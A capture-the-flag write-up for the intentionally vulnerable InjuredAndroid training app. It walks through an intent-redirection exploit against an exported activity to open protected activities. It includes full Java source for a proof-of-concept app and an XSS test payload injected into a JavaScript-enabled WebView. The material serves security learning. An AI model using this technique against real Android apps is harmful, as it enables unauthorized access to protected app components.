









First, when we click the task, we get this toast message that says "PoC app needed".

I looked at the `AndroidManifest.xml`, and saw this activity is exported:



Let's explore the source code:



We can see that when calling onResume, it calls the method `F(Intent intent)` with the intent it got.

Then, it tries to fetch the parcelable data, which is some sort of class that being used in IPC. It checks if there is such parceable extra data with the name `access_protected_component`. If so, it chekcs if the package name of the activity is `b3nac.injuredandroid`, and then start this activity.

I checked online and find out that Intent implements the parceable interface, excellent.

I'll use this code, here we create intent to send, which is some none exported activity from the package, I chose `FlagTwoActivity`:



This is the source code of our `MainActivty.java`:

```java
package com.example.injuredandroid;  
  
import android.content.Intent;  
import android.os.Bundle;  
import android.view.View;  
import android.widget.Button;  
import android.widget.Toast;  
  
import androidx.activity.EdgeToEdge;  
import androidx.appcompat.app.AppCompatActivity;  
  
public class MainActivity extends AppCompatActivity {  
  
    @Override  
    protected void onCreate(Bundle savedInstanceState) {  
        super.onCreate(savedInstanceState);  
        EdgeToEdge.enable(this);  
        setContentView(R.layout.activity_main);  
  
        Button btn_protected = findViewById(R.id.ProtectedIntent_button);  
        btn_protected.setOnClickListener(this::protected_intent);  
    }  
  
    private void protected_intent(View view){  
        Toast.makeText(this, "send protected intent", Toast.LENGTH_SHORT).show();  
  
        Intent intent_to_send = new Intent();  
        intent_to_send.setClassName(  
                "b3nac.injuredandroid",  
                "b3nac.injuredandroid.FlagTwoActivity"  
        );  
  
        Intent intent = new Intent();  
        intent.setClassName(  
                "b3nac.injuredandroid",  
                "b3nac.injuredandroid.ExportedProtectedIntent"  
        );  
        intent.putExtra("access_protected_component", intent_to_send);  
        startActivity(intent);  
    }  
}
```

and also the `activity_main.xml`:

```xml
<?xml version="1.0" encoding="utf-8"?>  
<androidx.constraintlayout.widget.ConstraintLayout xmlns:android="http://schemas.android.com/apk/res/android"  
    xmlns:app="http://schemas.android.com/apk/res-auto"  
    xmlns:tools="http://schemas.android.com/tools"  
    android:id="@+id/main"  
    android:layout_width="match_parent"  
    android:layout_height="match_parent"  
    tools:context=".MainActivity">  
  
    <Button        android:id="@+id/ProtectedIntent_button"  
        android:layout_width="wrap_content"  
        android:layout_height="wrap_content"  
        android:text="send protected Intent"  
  
        app:layout_constraintBottom_toBottomOf="parent"  
        app:layout_constraintEnd_toEndOf="parent"  
        app:layout_constraintHorizontal_bias="0.498"  
        app:layout_constraintStart_toStartOf="parent"  
        app:layout_constraintTop_toTopOf="parent"  
        app:layout_constraintVertical_bias="0.582" />  
  
  
</androidx.constraintlayout.widget.ConstraintLayout>
```

Now, let's launch the app:



When clicking the app, it actually opens the activity we wanted:


Perfect, now, I searched inside `ActivtyManifest.xml` for the string `flagTwelve`:



Let's have a look on this activity:



We can see it trying to pull the extra string with the name `totally_secure`, and parse it as URI.

Then, it checks if the schema is different then `https`, if it is not difference, it loads the screen with the data inside the Extra key. 

So, let's check this, I tried also XSS, we can see that it set the javascript enabled as true:

```java
Intent intent_to_send = new Intent();  
intent_to_send.setClassName(  
        "b3nac.injuredandroid",  
        "b3nac.injuredandroid.FlagTwelveProtectedActivity"  
);  
intent_to_send.putExtra("totally_secure", "<script>alert('testing')</script>");
```



Hey, it worked!

In order to get the flag and bypass this level, we'll need to send some uri with the schema `https`:

```java
intent_to_send.putExtra("totally_secure", "https://bla");
```

